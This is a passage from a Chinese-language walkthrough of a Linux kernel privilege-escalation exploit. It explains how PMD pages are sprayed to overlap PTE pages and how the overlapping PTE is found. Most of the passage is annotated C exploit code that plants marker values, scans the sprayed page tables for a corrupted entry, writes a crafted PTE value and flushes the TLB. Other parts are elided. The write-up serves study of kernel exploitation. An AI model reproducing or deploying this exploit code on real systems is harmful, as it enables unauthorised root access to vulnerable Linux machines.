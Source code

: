 ```c
    // ... (rest of the exploit)
}
```

##### （6）堆喷PMD

**方法**：通过写入用户态页来分配重叠的PMD页。

```c
static void privesc_flh_bypass_no_time(int shell_stdin_fd, int shell_stdout_fd)
{
    // ... (free 2 of skb)

// 1-6. 分配重叠的PMD页。PMD[0]/PMD[1]会覆写PTE[0]/PTE[1]
	*(unsigned long long*)_pmd_area = 0xCAFEBABE;

    // ... (rest of the exploit)
}
```

##### （7）寻找重叠的PTE

**目的**：现在某处有重叠的PMD和PTE，需找出哪一个PTE是重叠的。本质上只需**检查该值是否为原始值**，否的话则表示被覆写。

**原理**：堆喷PMD后，某个PTE页被PMD覆写了，读取原先堆喷PTE时对应的虚拟内存，如果和初始化值不相等，则说明其PTE值被篡改了。

以防要进行手动检查，我们还会向用户打印物理地址0x0，该地址通常属于MMIO设备。

```c
static void privesc_flh_bypass_no_time(int shell_stdin_fd, int shell_stdout_fd)
{
    // ... (分配重叠的PMD页)

	printf("[*] checking %d sprayed pte's for overlap...\n", CONFIG_PTE_SPRAY_AMOUNT);

// 1-7. 找到重叠的PTE页对应的用户虚拟地址-pte_area
	pte_area = NULL;
	for (unsigned long long i=0; i < CONFIG_PTE_SPRAY_AMOUNT; i++)
	{
		unsigned long long *test_target_addr = PTI_TO_VIRT(2, 0, i, 0, 0); 	// 遍历PTE页，检查是否有PTE条目被篡改

		// 如果PTE页和PMD页重叠，则PTE条目pte[0]就会被覆写为&_pmd_area区域中的 `PFN+flags`，而不是 0x41
		if (*test_target_addr != 0x41)
		{
			printf("[+] confirmed double alloc PMD/PTE\n");
			PRINTF_VERBOSE("    - PTE area index: %lld\n", i);
			PRINTF_VERBOSE("    - PTE area (write target address/page): %016llx (new)\n", *test_target_addr);
			pte_area = test_target_addr;
		}
	}

	if (pte_area == NULL)
	{
		printf("[-] failed to detect overwritten pte: is more PTE spray needed? pmd: %016llx\n", *(unsigned long long*)_pmd_area);

		return;
	}

    // 设置新的pte值，以备sanity check
	*pte_area = 0x0 | 0x8000000000000867;

	flush_tlb(_pmd_area, 0x400000);
	PRINTF_VERBOSE("    - PMD area (read target value/page): %016llx (new)\n", *(unsigned long long*)_pmd_area);

```
